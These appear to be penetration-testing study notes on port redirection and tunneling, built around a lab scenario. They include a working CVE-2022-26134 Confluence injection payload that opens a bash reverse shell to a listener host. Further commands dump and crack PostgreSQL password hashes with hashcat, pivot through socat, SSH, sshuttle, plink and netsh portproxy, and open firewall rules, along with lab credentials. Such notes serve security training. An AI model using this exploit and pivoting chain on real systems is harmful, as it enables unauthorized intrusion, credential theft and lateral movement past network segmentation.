 # Port Redirection and Tunneling

## Why Port Redirection and Tunneling?

- Most network environments are segmented, not flat.
- Secure network design follows the **principle of least privilege**.
- Subnets group devices by function and limit unnecessary access.
- Firewalls and routing rules limit traffic flow:
  - Linux: `iptables`
  - Windows: Windows Defender Firewall
- Firewalls drop unwanted inbound packets and block malicious traffic.
- Deep Packet Inspection (DPI) analyzes packet contents to apply rules.
- **Port redirection** and **tunneling** are used to bypass such restrictions.

---

## Port Redirection vs Tunneling

- **Port Redirection**: Redirects packets from one socket to another.
- **Tunneling**: Encapsulates one stream in another (e.g., HTTP in SSH).

---

## Port Forwarding with Linux Tools

### Scenario

- Web server (Confluence) vulnerable to `CVE-2022-26134`.
- Two network interfaces: one on external, one on internal subnet.
- Found internal PostgreSQL IP/port and credentials.
- Target Network Layout:
  ```
  WAN -> DMZ -> PostgreSQL
  ```

### Exploitation Example

```bash
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

Decoded:
```java
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```

- Reverse shell received.
- `ip addr` and `ip route` show internal interfaces and routes.
- Credentials found for PostgreSQL, but no client installed.

---

## Port Forwarding with Socat

On DMZ:
```bash
socat -ddd TCP-LISTEN:<port>,fork TCP:<target>:5432
```

From Kali:
```bash
psql -h <DMZ IP> -p <port> -U postgres
```

Once accessed:
```sql
\l
\c confluence
SELECT * FROM cwd_user;
```

Crack passwords with:
```bash
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt
```

---

## Forward SSH Port with Socat

```bash
socat TCP-LISTEN:2222,fork TCP:<DB>:22
```

Then:
```bash
ssh -p 2222 database_admin@<DMZ>
```

---

## SSH Tunneling

### Local Port Forwarding

```bash
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

From Kali:
```bash
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
```

---

### Dynamic Port Forwarding

```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```

In `/etc/proxychains4.conf`:
```
socks5 192.168.50.63 9999
```

Use:
```bash
proxychains smbclient ...
sudo proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

---

### Remote Port Forwarding

```bash
ssh -N -R 127.0.0.1:2345:<DB IP>:5432 kali@<Kali IP>
```

---

### Remote Dynamic Port Forwarding

```bash
ssh -N -R 9998 kali@<Kali IP>
```

Configure Proxychains:
```
socks5 127.0.0.1 9998
```

---

## Using `sshuttle`

First:
```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```

Then:
```bash
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

---

## Windows-Specific Forwarding

### OpenSSH on Windows

```powershell
ssh -N -L ...
```

### Plink

Transfer and run:
```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <pass> -R 127.0.0.1:9833:127.0.0.1:3389 <Kali IP>
```

---

## Netsh Portproxy

```cmd
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=<localip> connectport=<targetport> connectaddress=<targetip>
netstat -anp TCP | find "2222"
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=<localip> localport=2222 action=allow
```

Clean up:
```cmd
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
```